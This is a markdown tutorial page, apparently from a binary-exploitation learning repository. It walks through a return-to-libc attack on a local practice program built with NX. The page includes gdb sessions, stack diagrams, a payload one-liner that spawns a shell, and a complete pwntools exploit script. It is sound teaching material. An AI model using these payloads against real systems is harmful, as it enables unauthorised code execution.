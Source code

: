 # Bypass security techniques

Here, you will learn new techniques to exploit the programs that contain security mechanisms.

## Return to libc attack

This attack includes searching addresses of useful functions within libc.

Again, consider our old stack-overflow program and determine the offset to return address within gdb:
```bash
gef➤  r < <(python -c 'print "A"*262 + "B"*4')
Starting program: /home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx < <(python -c 'print "A"*262 + "B"*4')

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

Now, find addresses within libc. An easy and always useful function to use in the exploit is a `system`, then, you need string `/bin/sh` as an argument to it and last function `exit`.

```bash
gef➤  b *main
Breakpoint 1 at 0x8049243
gef➤  r
Starting program: /home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx

Breakpoint 1, 0x08049243 in main ()
gef➤  print system
$2 = {<text variable, no debug info>} 0xf7e02830 <system>
gef➤  print exit
$3 = {<text variable, no debug info>} 0xf7df5170 <exit>
gef➤  search-pattern /bin/sh
[+] Searching '/bin/sh' in memory
[+] In '/home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx'(0x804a000-0x804b000), permission=r--
  0x804a008 - 0x804a00f  →   "/bin/sh"
[+] In '/home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx'(0x804b000-0x804c000), permission=r--
  0x804b008 - 0x804b00f  →   "/bin/sh"
[+] In '/lib/i386-linux-gnu/libc-2.31.so'(0xf7f35000-0xf7fa5000), permission=r--
  0xf7f4f352 - 0xf7f4f359  →   "/bin/sh"
gef➤  
```

Thus, you have the address of `system`, `exit`, and `/bin/sh` for the system as an argument. You just need to figure out how the stack works when you call a few functions in a row.

Usual stack view:
```
|        unused space       |
----------------------------- <--- some_func2()
|       func variables      |
-----------------------------
|         saved ebp         |
-----------------------------
|     saved ret address     |
-----------------------------
|       func arguments      |
----------------------------- <--- some_func() that calls some_func2()
|  previous func variables  |
-----------------------------
|      prev. saved ebp      |
-----------------------------
|  prev. saved ret address  |
-----------------------------
|    prev. func arguments   |
-----------------------------
```

The stack when you do a ret2libc attack:
```
|        unused space       |
-----------------------------
|AAAAAAAAAAAAAAAAAAAAAAAAAAA|
-----------------------------
|AAAAAAAAAAAAAAAAAAAAAAAAAAA|
-----------------------------
|AAAAAAAAAAAAAAAAAAAAAAAAAAA|
-----------------------------
|AAAAAAAAAAAAAAAAAAAAAAAAAAA|
-----------------------------
| ret address to the system | <--- this is a place where the ret address stored for the current function(some function, whatever)
-----------------------------
|  ret address to the exit  |
-----------------------------
|    address of /bin/sh     |
-----------------------------
| null as end of input str. |
-----------------------------
```

After the first jump to the system function:
```
|        empty space        |
-----------------------------
|  ret address to the exit  | <--- this is a place where the ret address stored for the current function(system)
-----------------------------
|    address of /bin/sh     | <--- is considered as the first argument to the system
-----------------------------
| null as end of input str. |
-----------------------------
```

After the second jump to the exit function:
```
-----------------------------
| null as end of input str. | <--- as an argument to exit or exit with 0 code.
-----------------------------
|       something else      |
```

So, the final exploit will be just with all three correct address:
```bash
gef➤  r < <(python -c 'print "A"*262 + "\x30\x28\xe0\xf7" + "\x70\x51\xdf\xf7" + "\x52\xf3\xf4\xf7"')
Starting program: /home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx < <(python -c 'print "A"*262 + "\x30\x28\xe0\xf7" + "\x70\x51\xdf\xf7" + "\x52\xf3\xf4\xf7"')
[Detaching after vfork from child process 5366]
[Inferior 1 (process 5363) exited normally]
gef➤
```

You can see, that we executed child process. Try it outside gdb:
```bash
$ (python -c 'print "A"*262 + "\x30\x28\xe0\xf7" + "\x70\x51\xdf\xf7" + "\x52\xf3\xf4\xf7"'; cat) | ./stack-overflow-with-nx
w
 21:17:33 up 36 min,  1 user,  load average: 0.46, 0.37, 0.37
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
shogun   tty7     :0               20:41   36:03   1:15   1.39s xfce4-session

```

Attack with `pwntools`:
```python
from pwn import *


# start the vuln program
p = process('./stack-overflow-with-nx')
system_addr = p32(0xf7e02830)
exit_addr = p32(0xf7df5170)
bin_sh_addr = p32(0xf7f4f352)
payload = b'A' * 262
payload += system_addr
payload += exit_addr
payload += bin_sh_addr
p.sendline(payload)
p.interactive()
```

